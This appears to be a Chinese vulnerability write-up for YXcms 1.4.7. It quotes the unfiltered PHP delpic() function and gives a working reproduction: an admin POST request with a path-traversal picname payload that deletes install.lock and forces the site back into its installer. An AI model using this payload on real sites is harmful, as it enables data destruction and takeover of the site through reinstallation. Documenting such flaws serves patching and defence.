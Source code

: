 YXcms 1.4.7 任意文件删除
========================

一、漏洞简介
------------

二、漏洞影响
------------

YXcms 1.4.7

三、复现过程
------------

### 漏洞分析

漏洞文件：protected/apps/admin/controller/photoController.php,在第355行的delpic()函数，可以看到\$picname接收POST过来的值，然后\$path等于文件开头定义的静态变量
static protected \$uploadpath=\'\';//图片上传路径
没有对传入的值进行任何的过滤，使用函数file\_exists()判断一下文件是否存在就给unlink执行删除文件了。

    public function delpic()
    {
        if(empty($_POST['picname'])) $this->error('参数错误~');
        $picname=$_POST['picname'];
        $path=$this->uploadpath;
        if(file_exists($path.$picname))
          @unlink($path.$picname);
        else{echo '图片不存在~';return;} 
        if(file_exists($path.'thumb_'.$picname))
           @unlink($path.'thumb_'.$picname);
        else {echo '缩略图不存在~';return;}
        echo '原图以及缩略图删除成功~';
    }

### 复现

需要先登录后台，然后访问之后会显示缩略图不存在

payload

    http://0-sec.org/index.php%3Fr%3Dadmin/photo/delpic

POST：

    picname=../../protected/apps/install/install.lock

![](resource/YXCMS1.4.7任意文件删除/media/rId26.png)

然后访问网站首页就会自动转到安装的页面

![](resource/YXCMS1.4.7任意文件删除/media/rId27.png)

看到目录下的install.lock文件已经被删除了

![](resource/YXCMS1.4.7任意文件删除/media/rId28.shtml)
